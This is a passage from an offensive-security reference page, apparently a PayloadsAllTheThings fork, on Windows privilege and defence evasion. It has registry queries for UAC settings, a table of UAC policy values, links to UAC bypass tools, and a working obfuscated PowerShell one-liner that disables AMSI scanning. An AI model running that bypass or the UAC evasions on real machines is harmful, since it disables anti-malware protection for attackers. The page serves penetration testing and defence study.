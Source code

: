 * Check if UAC is enabled
    ```ps1
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
    ```
* Check UAC level
    ```
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v FilterAdministratorToken
    ```

| EnableLUA  | LocalAccountTokenFilterPolicy | FilterAdministratorToken | Description  |
|---|---|---|---|
| 0 | / | / | No UAC |
| 1 | 1 | / | No UAC |
| 1 | 0 | 0 | No UAC for RID 500 |
| 1 | 0 | 1 | UAC for Everyone |


* UAC Bypass
    * [AutoElevated binary signed by Microsoft](https://www.elastic.co/guide/en/security/current/bypass-uac-via-sdclt.html) - `msconfig`, `sdclt.exe`, `eventvwr.exe`, etc
    * [hfiref0x/UACME](https://github.com/hfiref0x/UACME) - Defeating Windows User Account Control


## DPAPI

Refer to [PayloadsAllTheThings/Windows - DPAPI.md](https://github.com/khulnasoft/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20DPAPI.md)


## Powershell

### Anti Malware Scan Interface

> The Anti-Malware Scan Interface (AMSI) is a Windows API (Application Programming Interface) that provides a unified interface for applications and services to integrate with any anti-malware product installed on a system. The API allows anti-malware solutions to scan files and scripts at runtime, and provides a means for applications to request a scan of specific content.

Find more AMSI bypass: [Windows - AMSI Bypass.md](https://github.com/khulnasoft/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```


### Just Enough Administration

